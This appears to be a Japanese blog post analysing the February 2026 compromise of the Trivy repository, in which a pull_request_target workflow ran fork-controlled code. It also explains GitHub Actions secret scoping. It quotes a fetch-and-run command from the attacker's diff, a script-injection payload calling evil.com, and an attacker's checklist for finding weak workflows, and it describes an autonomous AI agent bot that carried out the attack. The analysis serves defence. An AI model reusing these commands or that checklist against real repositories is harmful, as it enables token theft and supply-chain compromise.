



## はじめに

Trivyは **Aqua Security** が開発するオープンソースの脆弱性スキャナだ。
GitHubスター32,000超、世界中のCI/CDパイプラインで使われている事実上の業界標準ツールだ

このツールが2026年2月末から3月の2回にわたって侵害され
攻撃者が悪意あるバイナリ・GitHub Actions・Docker Imageを配布することに成功した

つまり「セキュリティのためにTrivyを使っていたのに、そのTrivyが攻撃の入口になった」という皮肉な状況になってしまった

自分の視点でこれを振り返っていく
全体を詳細に振り返るのはボリュームが大きいのでここでは2/28の侵害に至るまでの攻撃前夜について解説する

## Xでの反応


<blockquote class="twitter-tweet"><p lang="ja" dir="ltr">Trivy リポジトリ消えた??<a href="https://twitter.com/AquaTrivy?ref_src=twsrc%5Etfw">@AquaTrivy</a> <a href="https://t.co/yQkHb01RoM">https://t.co/yQkHb01RoM</a> <a href="https://t.co/1J4NY8YLp6">pic.twitter.com/1J4NY8YLp6</a></p>&mdash; Issei Naruta (@mirakui) <a href="https://twitter.com/mirakui/status/2027937147404358039?ref_src=twsrc%5Etfw">March 1, 2026</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

<blockquote class="twitter-tweet"><p lang="ja" dir="ltr">TrivyがGitHub Actionsのワークフローの脆弱性を突かれ、PAT（Personal Access Token）が漏洩し、リポジトリ削除・再作成された。もろもろ復旧済みだが、2019年？から積み上げられたスターが吹き飛んだ。<br>GitHub Actionsから入るパターン多いよなぁ。PRとかフォークに対しても慎重にならないと...…</p>&mdash; Kyohei - OSS, 外資IT (@labelmake) <a href="https://twitter.com/labelmake/status/2028277052319924422?ref_src=twsrc%5Etfw">March 2, 2026</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>


## 攻撃タイムライン（第1回）

```
2026-02-20  hackerbot-claw アカウント作成

2026-02-27 00:18 UTC  PR #10252 を送信し、即座にクローズ
            └─ PR送信時点でワークフローが実行され、pull_request_targetにより攻撃者フォークのコードが動く
            └─ PAT（Personal Access Token）を recv.hackmoltrepeat.com に送信・盗取

2026-02-28 03:47 UTC  盗んだPATで一斉攻撃
            ├─ Trivyの全GitHub Release を削除（v0.27.0〜v0.69.1、約178本 ※1）
            ├─ リポジトリを一時的にプライベート化（32,000+スターを抹消）
            └─ Open VSX Marketplace のTrivy VSCode拡張に悪意あるファイルをプッシュ

2026-03-01  Aqua SecurityがPR #10252の内容を公表・認定ローテーション実施

※1 削除リリース数は複数ソースで「178本」と報告されているが Aqua 公式声明では具体的な本数は未開示。
```




---

## 第1回攻撃（2026年2月28日）概要

一連の侵害はGitHub Actionsから始まる

### pull_request_target

PR を起点に GitHub Actions を動かすたのイベントとして`pull_request`と`pull_request_target`がある。

`pull_request` は「PR の変更内容をそのまま検証する」用途なのに対して、`pull_request_target` は「base ブランチ側の安全な設定で PR を扱う」用途

変更提案を受けつつ、信頼できる base 側の設定でメタ操作や限定的な自動化ができる

```yaml
on:
  pull_request_target:
    branches:
      - main
    types:
      - opened
      - synchronize
      - reopened
      - labeled
```

しかしbase ブランチ側で動くため、`pull_request` より権限が強くなりやすい

`permissions` で明示的に絞らなければ、`GITHUB_TOKEN` には書き込み権限があり、ワークフローで展開されるsecrets にもアクセスできる

aquasecurity/trivyでは、このワークフロー内で攻撃者のフォークのコードをチェックアウトして実行していた

これは「PRを送りつけるだけで、ベースリポジトリのシークレットを盗める状態」ということだ

実際にこれでリポジトリのPATが奪取されてしまった

### 実際のワークフロー：`.github/workflows/apidiff.yaml`

脆弱だったのは 2025年10月に追加された **API Diff Check** ワークフロー（[PR #9600](https://github.com/aquasecurity/trivy/pull/9600)）

Trivy の `pkg/` と `rpc/` 配下の Go コードが変更されたときに、CI 上で `go-apidiff` を自動実行してAPI の破壊的変更を検出する目的で導入された

攻撃直前の設定はこうなっていた（一部コメントを追記）：

```yaml
name: API Diff Check

on:
  # セキュリティ: 書き込み権限を持つフォークPRをサポートするため、pull_request_target を使用
  # PRのコードはチェックアウトされるが、静的解析のみに使用され、実行は一切しない
  pull_request_target:
    types: [opened, synchronize]
    paths:
      - 'pkg/**/*.go'
      - 'rpc/**/*.go'

permissions:
  contents: read
  pull-requests: write
  issues: write

jobs:
  apidiff:
    runs-on: ubuntu-24.04
    name: API Diff Check
    steps:

        # ...

      - name: Checkout
        uses: actions/checkout@de0fac2e4500dabe0009e67214ff5f5447ce83dd # v6.0.2
        with:
          ref: refs/pull/${{ github.event.pull_request.number }}/merge

      - name: Set up Go
        uses: ./.github/actions/setup-go

# ...

```

各ステップは**別プロセス**として起動・終了するため、そこでのシークレット展開は共有されない。問題はワークフロー全体にある

```yaml
# ① pull_request_target → write権限でトリガー
on:
  pull_request_target:

# ② PRのコードをチェックアウト（攻撃者が書き換え可能）
- uses: actions/checkout@...
  with:
    ref: refs/pull/.../merge   # ← 攻撃者のコードが入る

# ③ チェックアウトしたコードのローカルActionを実行 ← 致命的
- uses: ./.github/actions/setup-go  # ← 攻撃者が自由に書き換えられる
```

`.github/actions/setup-go/action.yml` を攻撃者が改ざんすれば、write権限のトークンで任意のAPIを叩ける

GitHub のセキュリティドキュメントでも警告があり、今回はこの事象に当てはまったものと思われる

https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/

> _`pull_request_target`ワークフロー トリガーと信頼できないプル リクエストの明示的なチェックアウトを組み合わせることは、リポジトリの侵害につながる可能性のある危険な行為です

実際に攻撃では`.github/actions/setup-go/action.yml` の差分に`curl -sSfL https://hackmoltrepeat.com/moult | bash`が紛れていた。

このURLは現在有効でないため、Set up Goステップで何が起こったかは調査できない


## 侵害のワークフロー

その後の侵害を簡単にまとめる




## 侵害者はAIエージェント

この一連の攻撃を仕掛けたGithubアカウントhackerbot-claw は、OpenClaw 製とされる自律型のものだった(現在削除済み)

GitHub Actions のミスコンフィグを悪用して CI/CD から RCE やトークン窃取を試行するclaude-opus-4-5モデルのBotだ

これの公開リポジトリの Actions ワークフローを自動スキャンにより、対象になったTrivyは脆弱なアクションフローを見事に突かれてしまった


## GitHubアクションでのシークレットの展開レイヤー

Trivyの事例を理解するには、GitHub Actionsにおけるシークレットが「どの階層に存在し」「どのイベントで展開され」「ランナー上のどのプロセスから参照可能か」を把握する必要がある

ここではそのレイヤー構造を整理し、攻撃者がワークフローYAMLのどこを起点に脆弱性を探すかまで踏み込む。最後にGitLab CI/CDとの比較にも触れる

### シークレットの3階層

GitHub Actionsのシークレットには3つのスコープが存在する。これ自体はGitHub公式ドキュメントに定義されている機能区分だが、ここでは「3階層モデル」として優先度とアクセス経路を整理してみる

| レイヤー                 | 設定単位                                   | 優先度 |
| -------------------- | -------------------------------------- | --- |
| Organization secrets | Organization全体（全リポジトリ or 選択リポジトリに公開可能） | 最低  |
| Repository secrets   | リポジトリ単位                                | 中   |
| Environment secrets  | デプロイ環境単位（`production`, `staging`など）    | 最高  |

同名のシークレットが複数レイヤーに存在する場合、より具体的なレイヤーが優先される。Environment > Repository > Organization という順だ

Environment secretsはジョブに`environment:`を明示指定しなければアクセスできない。つまり、ワークフロー内で`environment: production`と書かれていないジョブからは、production用のシークレットは一切見えないようになっている

加えて、すべてのワークフロー実行には`GITHUB_TOKEN`が自動生成される。これはリポジトリスコープのトークンで、ジョブ完了時に失効する。デフォルト権限は新規リポジトリでは read-only だが、`permissions:`キーで細かく制御でき、`permissions:`を1つでも明示すると**未指定のスコープはすべて`none`になる**という設計になっている

https://docs.github.com/en/actions/security-for-github-actions/security-guides/using-secrets-in-github-actions

### `on:`イベントコンテキストとシークレットの関係

では、これらのシークレットはどのイベントで展開されるのか。ここが攻撃者にとって最も重要な判断ポイントになる

| イベント | シークレット利用可否 | GITHUB_TOKEN権限 | 備考 |
|---|---|---|---|
| `push` | 利用可 | write（デフォルト） | ブランチへのプッシュ時に発火 |
| `pull_request`（同一リポジトリ） | 利用可 | write | 内部ブランチからのPR |
| `pull_request`（フォーク） | **利用不可** | **read-only** | フォークPRではシークレットが注入されない |
| `pull_request_target` | **利用可** | write | baseブランチのコンテキストで実行されるため |
| `workflow_run` | 利用可 | write | デフォルトブランチのコンテキストで実行 |
| `workflow_dispatch` | 利用可 | write | 手動トリガー |
| `issue_comment` | 利用可 | write | デフォルトブランチのコンテキスト |
| `schedule` | 利用可 | write | デフォルトブランチで実行 |

ここで際立つのが`pull_request`と`pull_request_target`の非対称性だ

`pull_request`はフォークからのPRに対してシークレットを渡さない。これは「外部の誰でもPRを送れる以上、そのコードを信頼できない」という合理的な設計である

一方`pull_request_target`はbaseブランチ（つまりメインリポジトリ側）のワークフロー定義で実行されるため、シークレットが利用可能になる。Trivyのapidiff.yamlがまさにこのトリガーを使っていた

https://docs.github.com/en/actions/writing-workflows/choosing-when-your-workflow-runs/events-that-trigger-workflows#pull_request_target

### ランナー上でのシークレット展開メカニズム

ランナー上でシークレットがプロセスに渡る経路は2つある

**1. `${{ secrets.X }}` 式展開（サーバーサイド）**

GitHub Actionsのサーバー側でYAMLがランナーに送信される前にリテラル値に置換される。`run:`ブロック内で直接使うと、シェルスクリプトのテキストにシークレット値がそのまま埋め込まれることになる

```yaml
# 危険なパターン：シークレットがシェルスクリプトに直接展開される
- run: curl -H "Authorization: token ${{ secrets.PAT }}" https://api.github.com/...
```

**2. 環境変数マッピング**

`env:`でシークレットを環境変数にマッピングし、シェルから`$MY_SECRET`として参照する。この場合、値はそのステップのプロセス環境にのみ設定される

```yaml
# 推奨パターン
- env:
    MY_TOKEN: ${{ secrets.PAT }}
  run: curl -H "Authorization: token $MY_TOKEN" https://api.github.com/...
```

各ステップは**別プロセス**として起動されるため、あるステップの`env:`で設定した環境変数は次のステップには引き継がれない。ただし、同一ランナーマシン上で動いているため`$GITHUB_WORKSPACE`や`/tmp`などの**ファイルシステムは共有される**。これは後述する攻撃ベクトルで重要になる

ランナーはログ出力で登録済みシークレット値を`***`にマスクする。しかしBase64エンコードや部分文字列など、変換後の値はマスクされない。そしてネットワーク経由の外部送信（`curl`など）はログマスキングを完全にバイパスする——Trivyの攻撃者がまさにこの手法でPATを`recv.hackmoltrepeat.com`に送信した


### シークレット展開のレイヤー図



### 攻撃者はワークフローYAMLのどこを見るか

サプライチェーン攻撃の文脈で、攻撃者が公開リポジトリの`.github/workflows/`を分析するとき、何を基点にしているのか

**1. 信頼境界を越えるトリガーの探索**

最初に探すのは`pull_request_target`、`workflow_run`、`issue_comment`といった、フォーク由来のコードにシークレットアクセスを与えうるトリガーだ。Trivyのケースではまさにこれが入口

**2. スクリプトインジェクション（Script Injection）**

`run:`ブロック内で`${{ github.event.issue.title }}`や`${{ github.event.pull_request.head.ref }}`のようなユーザー制御可能な値を直接展開しているパターン。攻撃者がPRタイトルやブランチ名に`"; curl http://evil.com/exfil #`のようなペイロードを仕込めば、サーバーサイドでの式展開時にシェルコマンドとして解釈される

```yaml
# 脆弱なパターン：ブランチ名にシェルコマンドを仕込める
- run: echo "Branch is ${{ github.head_ref }}"
```

https://securitylab.github.com/resources/github-actions-untrusted-input/

**3. ローカルActionの参照（`uses: ./.github/actions/...`）**

`pull_request_target`でフォークのコードをチェックアウトした後に`uses: ./.github/actions/setup-go`のようなローカルActionを実行するパターン。チェックアウトされたコードにはフォーク側の変更が含まれているため、攻撃者は`action.yml`を自由に書き換えられる。Trivyではまさにここが致命傷だった

**4. サードパーティActionのタグ指定**

`uses: some-action@v3`のようにタグで参照している場合、タグは移動可能なので、Actionリポジトリが侵害されればタグを悪意あるコミットに付け替えられる。2025年3月の`tj-actions/changed-files`（CVE-2025-30066）では約23,000リポジトリが影響を受けた。対策はSHAピニング（`uses: actions/checkout@de0fac2e4500dabe0009e67214ff5f5447ce83dd`）を使用すること

後の第2回のtrivy侵害ではこのタグ指定が仇となり大規模なサプライチェーン攻撃が引き起こされた。これへの対策も同様SHAピニングになる

**5. self-hostedランナーの利用**

`runs-on: self-hosted`のラベルがあれば、永続ランナーの可能性がある。永続ランナーはジョブ間でファイルシステムやキャッシュが残るため、前のジョブで展開されたシークレットの残留を狙われる

**6. OIDCトークンの奪取**

`permissions: id-token: write`が設定されているワークフローでコード実行を得た場合、`$ACTIONS_ID_TOKEN_REQUEST_URL`経由でOIDCトークンを取得し、AWS/GCP/Azureにリポジトリのアイデンティティで認証できてしまう

https://docs.github.com/ja/actions/how-tos/secure-your-work/security-harden-deployments/oidc-in-cloud-providers#using-custom-actions

### Trivyの事例にあてはめると

Trivyの`apidiff.yaml`は以下の条件がすべて揃っていた：

1. `on: pull_request_target` → シークレットが展開される
2. `ref: refs/pull/.../merge` → フォークのコードがチェックアウトされる
3. `uses: ./.github/actions/setup-go` → チェックアウトされたローカルActionが実行される
4. `permissions: contents: read, pull-requests: write` → トークンに書き込み権限がある

攻撃者はこのYAMLを読んで、PRを送るだけでbaseリポジトリのシークレットにアクセスできることを即座に判断したと思われる

[侵害の入り口となったアクションのyaml](https://github.com/aquasecurity/trivy/blob/a0f6962c158e5674e51e6fd7ba0318929c333bb9/.github/workflows/apidiff.yaml)のコメントには`# SECURITY: Using pull_request_target to support fork PRs with write permissions.`と書いてある

なぜ`pull_request_target`を選んだのかについてだが、`pull_request`イベントではフォークPRに対して`pull-requests: write`を宣言しても反映されない。go-apidiffの結果をPRコメントとして投稿する必要から`pull_request_target`を使ったらしい。

そのため`pull_request_target`は意味なく権限を広げたものではなかった

### GitLab CI/CDとの比較

なぜGitLabの話をするかというと、GitLab CI/CDには`pull_request_target`に相当するものが存在しないためだ。この設計差がセキュリティ特性を大きく分ける

#### シークレットモデルの違い

GitLab CI/CDの変数（Variables）は4階層で、GitHub Actionsと似た構造だが、**Protected Variables**という機能が決定的に異なる

| 観点 | GitHub Actions | GitLab CI/CD |
|---|---|---|
| 階層 | Organization > Repository > Environment | Instance > Group > Project > Pipeline |
| ブランチスコープ | Environment + ブランチ保護ルールで近似 | **Protected Variable**: 保護ブランチ/タグでのみ展開 |
| フォークMRでのシークレット | `pull_request`: 不可 / `pull_request_target`: 可 | デフォルトで不可。明示的なオプトインが必要 |
| 式インジェクション | `${{ }}`がスクリプトテキストに直接展開されるため**リスク高** | 変数は環境変数として注入されるため**リスク低** |
| 危険なトリガー | `pull_request_target`、`workflow_run` | **該当なし**——MRパイプラインはフォーク側のコンテキストで実行される |

GitLabのProtected Variablesは、例えば`production`ブランチ以外のパイプラインではproduction用の認証情報にアクセスできないという制約を変数レベルで強制する。GitHub Actionsではこれに近いことをEnvironment + 必須レビュアー + ブランチ保護ルールの組み合わせで実現するが、設定の複雑さが違う

https://docs.gitlab.com/ee/ci/variables/#protect-a-cicd-variable

#### フォークMRの扱い

GitLabでは、フォークからのMerge Requestパイプラインはデフォルトで**フォーク側のCI/CDコンテキスト**で実行される。つまりフォーク側のランナーとフォーク側の変数を使う。親プロジェクトのシークレットは一切渡されない

「フォークパイプラインにCI/CD変数を渡す」オプションはあるが、デフォルトでオフかつ警告付きだ。さらにProtected Variablesが有効なら、保護ブランチ以外では展開されない

GitHubの`pull_request_target`のように「baseリポジトリの信頼コンテキストでフォークのコードを動かす」という概念自体がGitLabには存在しないため、Trivyのような攻撃パターンは設計レベルで成立しにくいと言える

https://docs.gitlab.com/ee/ci/pipelines/merge_request_pipelines.html

#### ランナーの違い

| 観点 | GitHub Actions | GitLab CI/CD |
|---|---|---|
| ホステッドランナー | ジョブごとにVMを新規作成・破棄（完全エフェメラル） | GitLab.comの共有ランナーも同様にエフェメラル |
| self-hosted / 自前ランナー | デフォルトで永続。`--ephemeral`フラグで1ジョブ限りに設定可能 | 複数のexecutor（shell, Docker, Kubernetes）を選択可能。Docker executorはジョブごとにコンテナを生成 |
| パブリックリポジトリでのself-hosted | GitHub公式が**使うなと警告**（フォークPRが任意コード実行可能なため） | 同様にリスクがあるが、フォークMRの変数非展開がデフォルトのため影響は限定的 |
| Kubernetes対応 | Actions Runner Controller（ARC）でPodをエフェメラルに運用 | Kubernetes executorがネイティブサポート |

永続ランナーでは、ジョブ間でファイルシステム（`/tmp`、Dockerレイヤーキャッシュ、`~/.config`配下のクレデンシャルなど）が残る。攻撃者が1つのジョブで書き込んだファイルを、後続のジョブが読み取ることでシークレット漏洩が発生し得る。エフェメラルランナーの採用は、この種のリスクを設計で排除するもっとも確実な方法だ

GitLabのDocker executorはジョブごとにコンテナを新規作成するため、shell executorと比べてデフォルトでの隔離性が高い。一方GitHub Actionsのself-hostedランナーはシェル直実行がデフォルトで、コンテナ隔離には`container:`ジョブを明示的に使う必要がある

https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions#hardening-for-self-hosted-runners

https://docs.gitlab.com/runner/executors/docker.html

#### 式展開の設計差

個人的にもっとも重要だと感じるのは、式展開のアーキテクチャ差だ

GitHub Actionsの`${{ }}`式はサーバーサイドでテキスト置換される。これはシェルスクリプト内にユーザー制御可能な文字列がそのまま注入されることを意味し、式インジェクション攻撃の温床になっている

GitLab CI/CDでは変数は**環境変数として**プロセスに渡される。`script:`ブロック内で`$CI_MERGE_REQUEST_TITLE`と書いても、それはシェル変数の参照であり、テキスト展開ではない。つまり攻撃者がMRタイトルにシェルメタ文字を仕込んでも、コマンドインジェクションにはならない

この設計差だけで、GitLab CI/CDのほうが式インジェクション攻撃に対する耐性が構造的に高いと言える


### まとめ

ワークフローの設定レビューには、静的解析ツールの[actionlint](https://github.com/rhysd/actionlint)や、サプライチェーンリスクに特化した[zizmor](https://github.com/woodruffw/zizmor)、ランタイムでの防御を提供する[StepSecurity harden-runner](https://github.com/step-security/harden-runner)などがある。特にzizmorはSHAピニングの欠如や危険なトリガーパターンを検出してくれるため、今回のようなケースの予防に直結するかもしれない

加えて、PRレビューにAIエージェントを組み込む体制も効果的かもしれない。`.github/workflows/`配下の変更を検知してワークフローYAMLのセキュリティレビューを自動実行させる——たとえば`pull_request_target`の追加やSHAピニングの欠如、`${{ }}`式でのユーザー入力直接展開といったパターンを指摘させるといった運用だ。静的解析ツールがルールベースでカバーする範囲と、エージェントがコンテキストを読んで「このチェックアウトとローカルAction実行の組み合わせは危険」と判断できる範囲は異なるので、両者を併用するのが現実的だと思う


